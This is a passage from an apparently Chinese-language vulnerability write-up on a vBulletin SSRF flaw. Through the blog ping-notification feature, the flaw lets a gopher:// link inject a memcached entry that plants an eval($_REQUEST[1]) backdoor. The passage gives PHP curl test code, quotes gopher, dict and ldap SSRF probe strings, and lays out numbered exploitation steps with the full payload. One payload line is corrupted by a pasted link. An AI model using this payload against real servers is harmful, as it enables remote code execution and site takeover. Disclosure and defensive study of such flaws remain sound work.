 但是在本地测试时，上面的EXP并不能使用，经抓包分析，在我们测试时链接中的%0D%0A并未能转换成换行符。 测试代码： #!php $url = 'http://172.16.80.158:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1](http://seclists.org/fulldisclosure/2015/Aug/58));";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit'; $curl = curl_init(); curl_setopt($curl, CURLOPT_URL, $url); curl_setopt($curl, CURLOPT_RETURNTRANSFER, true); curl_setopt($curl, CURLOPT_HEADER, false); $str = curl_exec($curl); curl_close($curl); var_dump($str);

抓包结果：

![enter image description here](http://drops.javaweb.org/uploads/images/d8e00406e5a9add32d4635bc0c181b15afb9aebd.jpg)

最后多次测试和查阅参考资料发现，在`gopher`协议下`EXP`可以复现，但是`vB_Upload_Userpic`只允许`(http|ftp)s`开头的链接。

参考资料：[https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit?pli=1](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit?pli=1)

文中给出的Exploit：

```
gopher://localhost:11211/1%0astats%0aquit

dict://locahost:11211/stats

ldap://localhost:11211/%0astats%0aquit

```

然而将HTTP协议改为Gopher协议

```
$url = 'gopher://172.16.80.158:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1]);";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit';

```

抓包结果：

![enter image description here](http://drops.javaweb.org/uploads/images/5736f94da6040c54a8fd9fcab25712cd6216c47d.jpg)

可以看出，此时的%0D%0A转换成换行符了。 接下来，我们需要的是一个能带入`gopher://`的`SSRF`点，经过搜索对`vB_vURL`的调用，位置在`./blog_post.php`的`donotify`内，函数`send_ping_notification()`。

函数`send_ping_notification()`的声明在`./includes/blog_functions_post.php`，函数中调用的`fetch_head_request()`调用了`vB_vURL`类来发起请求，整个过程中$url变量未作过滤。 我们在前端可勾选发表博客中的附加选项`通知在这篇文章中链接的其它博客`，来调用这个变量。

0x02 漏洞利用
=====

1.  注册用户并登录。
2.  发表新文章（`http://*host*/blog_post.php?do=newblog`）。
3.  加入超链接`gopher://localhost:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1]);";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit`。

![enter image description here](http://drops.javaweb.org/uploads/images/7a552eb35eab8453298f035659bf48891ffb3955.jpg)

1.  在`附加选项`中勾选`通知在这篇文章中链接的其它博客`。

![enter image description here](http://drops.javaweb.org/uploads/images/302aa255d9b26f0ee0390f1412d4b621083c4338.jpg)
